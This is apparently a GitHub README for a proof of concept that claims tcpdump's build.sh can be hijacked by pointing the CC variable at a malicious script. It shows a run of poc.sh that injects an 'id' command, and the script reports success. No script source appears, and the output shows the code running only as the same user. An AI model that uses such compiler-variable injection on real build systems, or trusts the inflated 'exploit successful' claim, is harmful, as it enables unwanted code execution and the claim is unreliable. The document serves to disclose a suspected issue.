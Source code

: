 # TCPdump-Poc

The vulnerability arises from improper handling of environment variables in the build.sh script. Specifically, the CC and PATH variables, which are used to define the compiler and executable search paths, are not sanitized or validated before being used in the build process. An attacker can set CC to a malicious script or executable that performs arbitrary actions when the script is executed.


┌─[b7z@parrot]─[~/test/tcpdump/exploit]
└──╼ $./poc.sh "id > /tmp/scripthacker" /tmp/gccc /home/b7z/test/tcpdump/build.sh 
[+] Setting up malicious environment...
[+] Triggering vulnerable build script (/home/b7z/test/tcpdump/build.sh)...
PREFIX set to '/tmp/tcpdump_build.qMNdzUh3'
gcc (GCC) 12.2.0; 
Compiler identification: gcc-12.2.0
$ ./autogen.sh
autoreconf identification: 2.71
configure.ac:32: warning: The macro `AC_PROG_CC_C99' is obsolete.
configure.ac:32: You should run autoupdate.
./lib/autoconf/c.m4:1659: AC_PROG_CC_C99 is expanded from...
configure.ac:32: the top level
$ ./configure --with-crypto=no --enable-smb=no --prefix=/tmp/tcpdump_build.qMNdzUh3 --disable-local-libpcap
checking build system type... x86_64-pc-linux-gnu
checking host system type... x86_64-pc-linux-gnu
checking for gcc... /tmp/gccc
checking whether the C compiler works... no
configure: error: in `/home/b7z/test/tcpdump':
configure: error: C compiler cannot create executables
See `config.log' for more details
[!] EXPLOIT SUCCESSFUL: Payload executed.
Proof: uid=1000(b7z) gid=1001(b7z) groups=1001(b7z),24(cdrom),25(floppy)
